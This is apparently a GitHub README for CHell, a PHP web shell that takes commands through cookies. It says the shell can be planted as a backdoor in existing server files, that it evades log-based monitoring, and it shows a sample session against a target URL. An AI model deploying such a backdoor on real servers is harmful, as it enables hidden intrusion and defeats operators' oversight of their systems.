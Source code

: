 ![License](https://img.shields.io/badge/license-sushiware-red)
![Issues open](https://img.shields.io/github/issues/crashbrz/CHell)
![GitHub pull requests](https://img.shields.io/github/issues-pr-raw/crashbrz/CHell)
![GitHub closed issues](https://img.shields.io/github/issues-closed-raw/crashbrz/CHell)
![GitHub last commit](https://img.shields.io/github/last-commit/crashbrz/CHell)

# CHell
The CHell is a PHP shell based on cookies to execute the commands.<br> 
It might bypass several controls, and monitoring due to the web servers usually does not include the cookies into logs file.

## Notes ##
- CHell <chell.php> can be used as standalone .php file or backdooring an existence .php file into the server. 
- CHell by default uses JSESSION cookie name. If necessary, change it.
- Cookie value encryption was not added due to the necessity of encryption libs must be installed/loaded on the server-side. 

### Installation ###
Download the latest release and unpack it in the desired location.<br>
chell.php must be uploaded in the target.

### License ###
CHell is licensed under the SushiWare license. Check [docs/license.txt](docs/license.txt) for more information.

### Usage ###
```
./chell.sh http://target/chell.php
Press <CTRL+C> to exit.
CHELL>id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### PHP Version ###
```
Tested on:
CHELL>php -v
PHP 7.4.9 (cli) (built: Aug 27 2020 13:37:23) ( NTS )
Copyright (c) The PHP Group
Zend Engine v3.4.0, Copyright (c) Zend Technologies
with Zend OPcache v7.4.9, Copyright (c), by Zend Technologies
```
### To Do ###
Windows client support 